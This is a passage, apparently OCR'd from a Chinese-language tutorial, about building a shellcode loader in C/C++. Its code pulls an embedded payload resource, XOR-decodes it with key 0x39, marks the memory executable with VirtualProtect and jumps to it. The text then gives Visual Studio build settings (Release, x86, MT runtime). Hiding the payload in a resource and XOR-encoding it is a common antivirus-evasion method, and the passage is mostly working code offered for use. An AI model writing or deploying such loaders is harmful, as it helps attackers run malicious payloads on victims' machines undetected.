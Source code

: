 ```php

    DWORD oldProtect;
    BOOL pt;
    //找到shellcode资源，获取它的资源句柄
    //它的名称为IDR_PAYLOAD_BIN1，类型为PAYLOAD_BIN
    HRSRC shellcodeResource = FindResource(NULL, MAKEINTRESOURCE(IDR_PAYLOAD_BIN1), 
  L"PAYLOAD_BIN");
    //读取其中的数据
    HGLOBAL shellcodeResourceData = LoadResource(NULL, shellcodeResource);
    //读取数据⻓度，开辟内存空间读⼊，获得该空间指针
    DWORD shellcodeSize = SizeofResource(NULL, shellcodeResource);
    LPSTR shell = (LPSTR)VirtualAlloc(0, shellcodeSize, MEM_COMMIT, PAGE_READWRITE);
    //shellcode数据拷⻉进shell指向的内存空间
    memcpy(shell, shellcodeResourceData, shellcodeSize);
    //此时shellcode已经进⼊内存空间，开始解密执⾏
    //先异或回来
    for (int i = 0; i < shellcodeSize; i++)
    {
        shell[i] ^= 0x39;
    }
    pt = VirtualProtect(shell, shellcodeSize, PAGE_EXECUTE_READ, &oldProtect);
    ((void(*)())shell)();
    return 0;
}
```

由于我是使用资源文件加载的,我们需要在VS中配置一下

配置为release 的X86

![](assets/1699940321-5dd1b2809aae5af2983c736d3b54cfb2.png)

![](assets/1699940321-168c4ff84802e7362486275a3e5d7cd7.png)

然后修改代码生成为MT模式
